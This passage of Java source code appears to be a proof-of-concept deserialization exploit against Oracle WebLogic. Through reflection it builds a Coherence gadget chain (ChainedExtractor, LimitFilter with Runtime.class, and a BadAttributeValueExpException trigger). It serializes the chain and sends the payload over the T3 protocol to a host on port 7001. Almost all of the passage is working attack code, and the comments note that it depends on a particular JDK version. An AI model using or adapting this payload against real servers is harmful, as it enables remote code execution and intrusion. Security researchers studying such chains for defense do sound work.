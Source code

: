 ```java

        ChainedExtractor chainedExtractor = new ChainedExtractor(extractors);
        LimitFilter limitFilter = new LimitFilter();

        //m_comparator
        Field m_comparator = limitFilter.getClass().getDeclaredField("m_comparator");
        m_comparator.setAccessible(true);
        m_comparator.set(limitFilter, chainedExtractor);

        //m_oAnchorTop
        Field m_oAnchorTop = limitFilter.getClass().getDeclaredField("m_oAnchorTop");
        m_oAnchorTop.setAccessible(true);
        m_oAnchorTop.set(limitFilter, Runtime.class);

        // BadAttributeValueExpException toString()
        // This only works in JDK 8u76 and WITHOUT a security manager
        // https://github.com/JetBrains/jdk8u_jdk/commit/af2361ee2878302012214299036b3a8b4ed36974#diff-f89b1641c408b60efe29ee513b3d22ffR70
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Field field = badAttributeValueExpException.getClass().getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException, limitFilter);

        // serialize
        byte[] payload = Serializables.serialize(badAttributeValueExpException);

        // T3 send, you can also use python script. weblogic_t3.py
        T3ProtocolOperation.send("192.168.201.132", "7001", payload);

        // test
        serialize(badAttributeValueExpException);
//        deserialize();

    }

    public static void serialize(Object obj) {
        try {
            ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("test.ser"));
            os.writeObject(obj);
            os.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void deserialize() {
        try {
            ObjectInputStream is = new ObjectInputStream(new FileInputStream("test.ser"));
            is.readObject();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
